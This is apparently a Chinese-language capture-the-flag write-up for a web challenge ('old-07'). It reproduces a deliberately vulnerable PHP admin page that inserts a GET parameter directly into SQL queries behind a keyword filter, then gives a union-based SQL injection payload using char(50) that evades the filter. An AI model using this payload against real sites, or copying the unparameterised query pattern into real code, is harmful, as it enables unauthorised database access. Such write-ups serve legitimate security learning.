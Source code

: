 # old-07_300

* 一進到這個網站直接點進去 source code 
    ```php=
    <?php
    $go=$_GET['val'];
    if(!$go) { echo("<meta http-equiv=refresh content=0;url=index.php?val=1>"); }
    echo("<html><head><title>admin page</title></head><body bgcolor='black'><font size=2 color=gray><b><h3>Admin page</h3></b><p>");
    if(preg_match("/2|-|\+|from|_|=|\\s|\*|\//i",$go)) exit("Access Denied!");
    $db = dbconnect();
    $rand=rand(1,5);
    if($rand==1){
      $result=mysqli_query($db,"select lv from chall7 where lv=($go)") or die("nice try!");
    }
    if($rand==2){
      $result=mysqli_query($db,"select lv from chall7 where lv=(($go))") or die("nice try!");
    }
    if($rand==3){
      $result=mysqli_query($db,"select lv from chall7 where lv=((($go)))") or die("nice try!");
    }
    if($rand==4){
      $result=mysqli_query($db,"select lv from chall7 where lv=(((($go))))") or die("nice try!");
    }
    if($rand==5){
      $result=mysqli_query($db,"select lv from chall7 where lv=((((($go)))))") or die("nice try!");
    }
    $data=mysqli_fetch_array($result);
    if(!$data[0]) { echo("query error"); exit(); }
    if($data[0]==1){
      echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Access_Denied!')\"><p>");
    }
    elseif($data[0]==2){
      echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
      solve(7);
    }
    ?>
    ```
    該程式碼的大意就是如果 data[0] = 2 的話可以過這一題，傳輸的值當中會過濾掉 2, -, from 等等，之後會 rand 1 到 5，之後就是要思考 sql injection 的 payload 拉
* 我選擇的是 `select lv from chall7 where lv=($go)` 
* 如果 payload 是 `0)union(select(char(50))` 把它填到 \$go 裡面
    `select lv from chall7 where lv=(0)union(select(char(50)))` 完美
* 接下來就是一直刷 F5 直到過摟
